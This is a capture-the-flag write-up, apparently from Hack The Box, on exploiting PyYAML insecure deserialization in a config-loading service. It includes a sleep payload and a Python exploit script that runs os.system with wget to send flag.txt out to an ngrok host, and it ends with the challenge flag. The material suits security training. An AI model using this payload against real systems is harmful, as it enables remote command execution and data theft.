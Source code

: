 When we connect to this service we have a system that allows us to create a config and load a config.

![image](https://user-images.githubusercontent.com/80063008/227539600-3c19ff02-4213-4c1d-9c75-b9d48dfad460.png)

Creating a config gives us some serialized Base64 encoded data. Decoding the data, we notice it is python serialized data.

![image](https://user-images.githubusercontent.com/80063008/227539798-c86c3c60-8531-4827-9d0a-fedd78e6ceb3.png)

Some research online reveals this is pyyaml serialization. We can find some payloads to test here:
https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/YAML/#summary

Starting slowly with a sleep command:

```python
!!python/object/apply:time.sleep [10]
```
We Base64 encode and send it as input to the `Load Config` option and the server hangs for 10 seconds confirming we have command execution.

I then used this script to exfiltrate the flag:

```python
import yaml
from yaml import UnsafeLoader, FullLoader, Loader
import os
import base64

class Payload(object):
    def __reduce__(self):
        return (os.system,('wget https://e7f1-86-121-46-6.eu.ngrok.io/`cat flag.txt`',))

deserialized_data = yaml.dump(Payload()) # serializing data
print(base64.b64encode(deserialized_data.encode()).decode())
```

This creates the Base64 encoded data I need to send. Once I do, I get the flag in my netcat listener:

![image](https://user-images.githubusercontent.com/80063008/227540727-2217b1ae-01cf-47fe-957a-5fcf10a71b6c.png)

HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}

